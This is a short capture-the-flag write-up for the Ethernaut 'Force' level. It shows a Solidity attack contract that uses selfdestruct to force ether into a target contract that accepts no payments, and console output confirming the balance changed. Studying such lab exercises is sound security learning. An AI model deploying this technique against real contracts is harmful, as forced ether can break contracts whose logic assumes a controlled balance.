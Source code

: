 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel7.svg">

## Look Over Target Contract

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

Challenge's message.

> Some contracts will simply not take your money ¯\_(ツ)_/¯
The goal of this level is to make the balance of the contract greater than zero.

Our aim should be send ether to target contract to solve this challenge.

## Subverting

My attack contract.

```solidity
pragma solidity ^0.8.0;

contract Attack{

    address payable target;

    constructor(address payable _target){
        target = _target;
    }

    function attack()public payable{
        selfdestruct(target);
    }
}
```

In the starting point, identify the contart address which is our target. Afterwards, send ether to target contract with ```selfdestruct()``` method. With help of selfdestruct, contracts can be deleted from the blockchain and selfdestruct **sends all remaining ether stored in the contract** to a designated address. For this reason,
a malicious contract can use **selfdestruct** to force sending Ether to any contract.

Learn target contract's address.

```shell
await instance
'0x2C5eB5feC2C02C4bAba25DfD9e9E9092967Bde51'
```
Deploy and call attack function.

<img src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/Force/img/deploy.png">

<img src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/Force/img/transaction.png">

```shell
await getBalance(instance)
'0.00000000000000001'
```

**_by wasny0ps_**
